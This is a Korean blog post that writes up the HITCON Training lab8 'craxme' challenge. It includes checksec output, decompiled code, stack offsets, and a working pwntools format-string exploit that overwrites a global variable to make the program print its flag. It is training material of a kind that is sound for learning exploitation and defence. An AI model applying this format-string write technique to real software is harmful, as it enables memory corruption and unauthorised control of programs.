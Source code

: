 ```yaml
---
layout: post
title: "[HITCON Training] lab8"
comments : true
category : War Game
---
```


# 문제
***

craxme 바이너리의 checksec 결과는 다음과 같다.
```
CANARY    : ENABLED
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
```

file 명령어 결과는 다음과 같다.
```
craxme: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=2b264eb7dfa7fe74e2dce2cf802a6b5300737b65, not stripped
```

바이너리 코드
```
int __cdecl main(int argc, const char **argv, const char **envp)
{
  ...
  ...
  read(0, &buf, 0x100u);
  printf(&buf);
  if ( magic == 218 )
  {
    system("cat /home/craxme/flag");
  }
  else if ( magic == 0xFACEB00C )
  {
    system("cat /home/craxme/craxflag");
  }
  else
  {
    puts("You need be a phd");
  }
  return 0;
}
```

magic에 저장된 값이 218이면 flag 값을 읽어온다.
그리고 if문에 들어가기 전에 호출하는 printf에 format string bug가 존재한다.

## exploit 방법
printf(&buf)를 하는 시점에 esp 값과 buf의 주소는 다음과 같다.
esp 값   -> 0xffffcef0
buf 주소 -> 0xffffcf0c 

따라서 buf에서 magic의 주소값을 넣어주면 fsb를 통해서 magic에 원하는 값을 쓸 수 있다.  

# 풀이
***
```
#!/usr/bin/python

from pwn import *
import time

file_path="/home/sungyun/HITCON-Training/LAB/lab8/craxme"

p=process(file_path)

p.recvuntil("magic :")

magic=0x0804a038

pay=p32(magic)
pay+="%214d"
pay+="%7$n"

p.send(pay)

time.sleep(0.1)

print p.recv(1000)
```

# 알게 된 것
***
1. "%숫자$n" 을 통해서 n+1번째 인자에 접근할 수 있다.
2. 위의 문제에서 send를 하고 바로 recv를 하면 ```system("cat /home/craxme/flag");```이 실행되기 전에 출력된 값만 recv하고 파이썬 프로세스가 종료된다. 따라서 send와 recv 사이에 time.sleep 함수를 넣어주어야 한다.


